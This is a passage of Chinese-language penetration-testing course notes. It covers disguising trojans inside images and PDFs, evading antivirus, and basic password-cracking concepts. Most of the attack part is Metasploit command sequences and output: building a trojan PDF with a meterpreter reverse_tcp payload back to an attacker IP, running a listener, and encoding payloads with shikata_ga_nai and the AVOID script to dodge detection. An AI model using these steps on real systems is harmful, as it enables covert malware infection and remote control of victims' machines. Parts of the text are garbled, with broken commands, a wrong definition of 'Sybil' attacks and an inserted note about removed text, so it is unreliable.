- 它会询问你是否要操作监听器，告诉他`yes`。
- 你可以在`pentest/exploits/set/msf.exe`中找到负载。
- 在客户端电脑上运行负载。shell code会话将会出现在黑客电脑上。

```
Set > sessions -l（查看所有会话）
Set > sessions -i 1
```

### j) 封装（Wrapping）

是将程序与图片合并，这样客户端就不会怀疑是木马。





- 在`Bifrost`中创建服务器。
- 使用`unicast sfx`编译器合并木马和图片



- 你可以使用`kabo icon changer`更改图标



- 你也可以使用`winrar`或`iexpress`

### 使用 Metasploit 进行封装

```
msfconsole

use exploit/windows/fileformat/adobe_pdf_embedded_exe

set payload windows/meterpreter/reverse_tcp

set LHOST 192.168.28.133

set LPORT 4444

set FILENAME eduors.pdf

set INFILENAME /root/CEI.pdf

output file /root/msf4/data/exploits/eduors.pdf

blah Multihandler

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set LHOST 192.168.28.133

set LPORT 4444

exploit -j
```

- 使用以下命令：
  - `use exploit/windows/fileformat/adobe_pdf_embedded_exe`
- 在`msfconsole`中生成负载。给`LHOST`提供黑客电脑的DNS名称，给`LPORT`提供我们希望木马监听的端口，以及我们想要与负载合并的pdf文件。

```
msf exploit/windows/fileformat/adobe_pdf_embedded.exe

msf exploit(adobe_pdf_embedded_exe) > set payload windows/meterpreter/reverse

payload => windows/meterpreter/reverse_tcp

msf exploit(adobe_pdf_embedded_exe) > set LHOST 192.168.28.133

msf exploit(adobe_pdf_embedded_exe) > set LPORT 4444

msf exploit(adobe_pdf_embedded_exe) > set FILENAME eduors.pdf

msf exploit(adobe_pdf_embedded_exe) > set INFILENAME '/root/CEI.pdf'

msf exploit(adobe_pdf_embedded_exe) > exploit

[*] Reading in '/root/CEI.pdf'...

[*] Parsing '/root/CEI.pdf'...

[*] Parsing Success! 

[*] Using windows/meterpreter/reverse_tcp as payload ...

[*] Creating 'eduors.pdf' file...

[*] Generated output file /root/msf4/data/exploits/eduors.pdf

msf! exploit(adobe_pdf_embedded_exe) >
```

- 运行多重处理器（multi handler）。为其提供负载信息。用pdf文件感染客户端，你将进入metpreter会话。

```
msf exploit(handler) > use exploit/multi/handler

msf exploit(handler) > set payload windows/meterpreter/reverse_tcp

payload = windows/meterpreter/reverse_tcp

msf exploit(handler) > set LHOST 192.168.28.133

LHOST = 192.168.28.133

msf exploit(handler) > set LPORT 4444

PORT = 4444

msf exploit(handler) > exit

exited

msf exploit(handler) > exploit -j

[*] Running exploit as background job.

[*] Starting the payload handler... reverse handler on 192.168.28.133:4444

Starting stage (752128 bytes) to 192.168.28.138
[*] Session opened for 192.168.28.133:4444 <- 192.168.28.137:10673
2013-07-27 19:35:56 -0400

msf exploit(handler) > sessions -
Active sessions

| Id | Type | Information | Connection |
| :--- | :--- | :--- | :--- |
| 1 | meterpreter/win/x32 XP | user@XP-1 | 192.168.28.133:4444 -> 192.168.28.138:10673 |

msf exploit(handler) > sessions - 1
Starting interaction with 1...
```

- 使用工具集封装：
```
#./se-toolkit
```
- 选择`1 If`进行社会工程攻击。


- 在`Bifrost`中创建服务器。
- 使用`unicast sfx`编译器合并木马和图片...

（注：此处已根据指令逻辑去除了原文中大量重复的文本块）



- 若要在多处理器（multi handler）中工作，选择相同的payload并设置相同的ip和监听数量。选择输出为multi handler。



- 若要与pdf文件合并，进入菜单，攻击（attacks），包（packages），adobe pdf。选择pdf文件和服务器文件。



- 当你在客户端机器上运行感染文件时，你会看到它。



### 权限：密码数据库命令

| 命令 | 描述 |
| --- | --- |
| `hashdump` | 转储 SAM 数据库的内容 |

### m) 对木马进行编码以防防毒软件检测

理解木马的工作原理
我们需要加密木马，因为防毒软件可以检测服务器并停止进程。使用了更多技术来加密服务器，但并不要求你具备汇编或`C++`或`VB`编程语言知识。
防毒软件检测恶意软件：基于特征和基于行为。

你可以通过免费在线多病毒文件和URL扫描服务器：
`http://novirusthanks.org/`
`https://www.virustotal.com/en/`



Windows 工具
- `Xenocode_Postbuild`
- `Hex Workshop`
- 使用 Metasploit 对 Payload 编码
- `Msfconsole`
- `Set`
- `Cobalt strike` 和 `armitage`

- 木马想要检测任何病毒或恶意软件，可以通过两种方式运行：基于特征或基于行为。防毒软件拥有一个包含大量代码的数据库，当它在文件中找到该代码时，它就会知道这是某个名称的木马或某个名称的病毒。基于行为的方法可以看到程序运行时的行为。通过程序的行为，它可以检测出是否是病毒或木马。大多数程序是基于特征的，有些是基于行为的。有些网站拥有可以扫描任何包含多种病毒的文件的引擎。`Virustotal.com`可以用46种引擎进行扫描。



- 你可以加密木马并在`virustotal.com`上进行扫描，但这会让防毒软件通过`virustotal.com`检测到你的木马。
- 对自定义的`exe`程序进行编码。你可以使用`hex workshop`加密文件。通过尝试查找带有特征的部分并更改其中的一个字母，这样文件就不会被防毒软件检测到。



### n) 在 Metasploit 中编码



你可以通过免费在线病毒文件和URL进行扫描验证：
`http://virustotal.org/`
`https://www.virustotal.com/en/`

Windows 工具 Xenocode Postbuild
- `Hex Workshop`

- Metasploit 有一些我们在生成 payload 时可以使用编码器（encoders）。若要在 metasploit 中查看编码器，输入：

```
### msfconsole
Msf> use payload/windows/meterpreter/reverse_tcp
Msf> show encoders
```

最好的是`x86/shagata_ga`。使用此编码器生成payload：

```
msf > payload(reverse_tcp) > generate -t exe -e x86/shagata_ga
```

- 下载 armitage
```
apt-get install armitage
```

- sql 服务
```
service postgresql start
```

- armitage
- 进入 windows 然后使用 meterpreter reverse_tcp。选择编码器 LHOST 和 LPORT，它们是黑客机器的 IP 地址和端口。选择输出为 exe 文件。

### windows/meterpreter/reverse_tcp

Windows Meterpreter (Reflective), Reverse TCP Stager
连接回攻击者，通过 Reflective DLL 注入 meterpreter server (staged)

| 选项 | 值 |
|---|---|
| Encoder | x86/shagata_ga |
| EXIT_RUNS | process |
| Iterations | 3 |
| Template | 192.168.1.4 |
| HOSTID | 192.168.1.4 |
| Output | multi/handler |
| Show options | |

- 在 virustotal 中扫描文件，它会被 35 种防毒软件检测。



- 我们可以使用 AVOID 脚本进行加密。我们需要先安装 mingw32。运行带有信息的脚本，你将在 author 文件夹中得到木马。

```
? 什么样的隐藏性？输入 1, 2, 3, 4 或 5 并回车

1. Normal - 约 400K payload - 编译快速 - 13/46 种毒软件检测为恶意

2. Stealth - 约 1-2 MB payload - 编译快速 - 12/46 种毒软件检测为恶意

3. Super Stealth - 约 10-20MB payload - 编译快速 - 11/46 种毒软件检测为恶意

4. Insane Stealth - 约 50MB payload - 编译缓慢 - 10/46 种毒软件检测为恶意

5. Desperate Stealth - 约 100MB payload - 编译缓慢 - 未经 AV 测试

is analytics on "localhost" (127.0.0.1) and active

TCP/IP connections on port 5432
```

## 网络钓鱼攻击 (PHISHING)

使用网络钓鱼模板、落地页和监听器：
- Metasploit Pro 的向导 -- 输入 qpr 启动。

```
1953 exploits, 596 auxiliary, 174 post

250 payloads, 20 encoders, 8 maps

LHOST = 192.168.1.4

LHOSTPORT = 4444

[*] Starting handler on 192.168.1.4:4444
```


```
[*] Starting handler
- payload
- 被 46 种防毒软件检测
```

## 病毒与蠕虫



- 病毒



## 病毒类型

病毒根据两个因素分类：感染什么以及如何感染
- 系统扇区
- 文件（如 Word 宏）
- 附属文件（如 `INI` 文件）
- 磁盘簇
- 批处理文件 (`BAT`)
- 源代码

## 一些工具可以制作病毒



## JPS



## 4. C 部分：系统攻击

a) 系统攻击概览

- 理解密码破解技术
- 理解不同类型的密码
- 理解权限提升
- 理解键盘记录器和其他间谍软件
- 理解根内核程序 (`Rootkits`)
- 理解如何隐藏文件
- 理解隐图术



### 理解密码破解技术

- 许多攻击尝试从破解密码开始。密码是访问系统所需的关键信息。用户在创建密码时，往往选择容易破解的密码——例如宠物的名字。
- 密码存储在 `Windows` 系统的安全账户管理器 (`SAM`) 文件中，以及 `Linux` 系统的密码影子文件（`shadow file`）中。

### c) 理解网络环境类型

理解网络环境类型

### 工作组域 (`Workgroup Domain`)



- 在工作组中，用户名和密码存储在同一台机器的 `SAM` 文件中。如果我们获得了 `sam` 文件中的数据，就可以破解密码。
- 在域中，用户名和密码存储在域控制器中。目录服务由四个部分组成：域分区、架构分区、配置分区和应用程序分区。域分区包含网络中所有对象的数据。架构分区由属性或类模板组成。配置分区包含属性。
- 在活动目录域中，机器使用 `Kerberos` 服务登录。当客户端想要访问任何资源时，它向 `Kerberos TGS`（票据授予服务）发送请求。`TGS` 携带 `TGT`（票据授予服务）。`TGT` 文件包含用户的 `SID` 以及用户所属的安全组。机器在想要访问服务时请求 `TGT`，活动目录将授予其服务票据和会话密钥。

## 密码破解的不同类型：

- 被动在线窃听：对网络中的密码交换进行被动监听。被动在线攻击包括嗅探攻击、中间人攻击和重放攻击。
- 主动在线猜解：猜测管理员密码。主动在线攻击包括自动化密码猜解。
- 离线：字典攻击、混合攻击和暴力破解。
- 非电子：窥视（肩后偷窥）、键盘嗅探和社会工程学。



## 伦理黑客技术：

- 字典攻击 - 使用一个词汇文件对用户账户进行尝试，如果密码是一个简单的单词，可以很快找到。
- 混合攻击 - 用户更改密码的一种常用方法是在末尾添加数字或符号。混合攻击的工作原理类似于字典攻击，但在尝试的密码的基础上添加了简单的数字或符号。
- 暴力破解 - 破解密码最耗时但最全面的方法。会尝试每种字符组合，直到破解密码为止。
- 女比尔攻击（`Sybil`） - 暴力破解攻击和字典攻击的结合。
- 后门 - 当攻击者获取了一些关于密码的信息时使用的这种攻击。
- 社会工程学 - 是指操纵他人执行某些操作或泄露机密的艺术。
- 窥视（`Shoulder surfing`） - 使用直接观察技术（如从他人背后看）来获取信息。
- 翻垃圾（`Dumpster diving`） - 一种检索可能用于对计算机网络攻击信息的技术。

### f) 被动在线攻击：

